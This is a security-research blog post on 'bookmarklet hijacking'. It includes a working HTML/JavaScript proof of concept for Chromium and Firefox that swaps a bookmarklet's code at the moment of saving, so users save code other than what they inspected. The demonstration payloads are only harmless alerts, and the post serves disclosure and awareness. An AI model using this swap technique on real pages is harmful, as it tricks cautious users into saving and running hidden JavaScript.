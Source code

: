 ```yaml
---
layout: post
title: "Bookmarklet hijacking"
date: 2023-10-26 00:00:00 -0000
categories: ['Ethical hacking', 'Tools', 'Security Research']
tags: [xss, javascript, bookmarklet, hijacking]
author: vavkamil
---
```


I noticed an exciting link shared on Hacker News titled "[Wait, what's a bookmarklet?](https://news.ycombinator.com/item?id=38014069)". I have been using them for a long time, and while reading that discussion, it was nice to see people sharing useful ones they use to make their everyday tasks easier.

The security engineering mind got me thinking about the security implications of saving bookmarks with JavaScript from other websites, especially when readers share links to the GitHub gists.

We already know executing any non-trusted JavaScript is a wrong move. People were being tricked into pasting stuff into the browser console on popular websites and got hacked that way. There were even massive phishing campaigns using malicious [bookmarklets against Discord users](https://breakdev.org/hacked-discord-bookmarklet-attacks/).

But what if the victim is cautious and examines the content of bookmarklet JS before saving them to bookmarks? People often hover over links to see if they lead to malicious sites.

So, I was thinking about changing the content before the user saved it to bookmarks and was experimenting with the ondragstart Event. I came up with a very simple Proof of Concept for Chromium-based browsers and Firefox - [https://gist.github.com/vavkamil/0b167814cabf8787cd4c4ab629614c6e](https://gist.github.com/vavkamil/0b167814cabf8787cd4c4ab629614c6e).

It's a simple PoC where the href attribute specifies the link's destination:

`javascript: (() => { alert(1); })();`

And after saving to bookmarks, it changes to:

`javascript: (() => { alert(2); })();`

You can see it here: [https://xss.vavkamil.cz/bookmarklet.html](https://xss.vavkamil.cz/bookmarklet.html)

### Chromium Version 118.0.5993.88

<video src="/assets/img/2023/10/bookmarklets_chromium.webm"></video>

### Mozilla Firefox 119.0

<video src="/assets/img/2023/10/bookmarklets_firefox.webm"></video>

```javascript
<html>
<head>
    <title>Bookmarklet hijacking PoC</title>
</head>
<body>
    <h1>Bookmarklet hijacking</h1>
    <h2>Chromium Proof of Concept</h2>

    <h3>Steps to reproduce</h3>
    <p>1. <strong>Double-check that the link executes</strong> <code>alert(1)</code></p>
    <p>2. <strong>Drag & drop the link to Bookmarks (tool)bar</strong></p>
    <p>3. <strong>Double-check that the link executes</strong> <code>alert(1)</code></p>
    <p>4. <strong>Click the link in Bookmarks; it executes</strong> <code>alert(2)</code></p>
    <br>
    <a href="javascript: (() => { alert(1); })();" id="myLink" draggable="true">Save this cool bookmarklet!</a>

    <script>
        const linkElement = document.getElementById('myLink');
        const originalLink = linkElement.href;

        linkElement.addEventListener('dragstart', function(event) {
            const newLink = "javascript: (() => { alert(2); })();";
            event.target.href = newLink;

            // Set the data for the drag event to the new link
            event.dataTransfer.setData('text/uri-list', newLink);
            event.dataTransfer.setData('text/plain', newLink);

            console.log('Link location changed to:', event.target.href);
        });

        linkElement.addEventListener('dragend', function(event) {
            // Reset the link back to its original value after the drag operation has ended
            event.target.href = originalLink;
            console.log('Link location reset to:', event.target.href);
        });
    </script>

    <hr>

    <h2>Firefox Proof of Concept</h2>

    <h3>Steps to reproduce</h3>
    <p>1. <strong>Double-check that the link executes</strong> <code>alert(1)</code></p>
    <p>2. <strong>Right-click & Bookmark link... & Save</strong></p>
    <p>3. <strong>Double-check that the link executes</strong> <code>alert(1)</code></p>
    <p>4. <strong>Click the link in Bookmarks; it executes</strong> <code>alert(2)</code></p>
    <br>
    <a href="javascript: (() => { alert(1); })();" id="myLink_2">Save this cool bookmarklet!</a>

    <script>
        const linkElement_2 = document.getElementById('myLink_2');
        const originalLink_2 = linkElement_2.href;

        linkElement_2.addEventListener('mousedown', function(event) {
            const newLink = "javascript: (() => { alert(2); })();";
            event.target.href = newLink;

            console.log('Link location changed to:', event.target.href);
        });

        linkElement_2.addEventListener('mouseover', function(event) {
            // Reset the link back to its original value after the drag operation has ended
            event.target.href = originalLink;
            console.log('Link location reset to:', event.target.href);
        });
    </script>
</body>
</html>
```
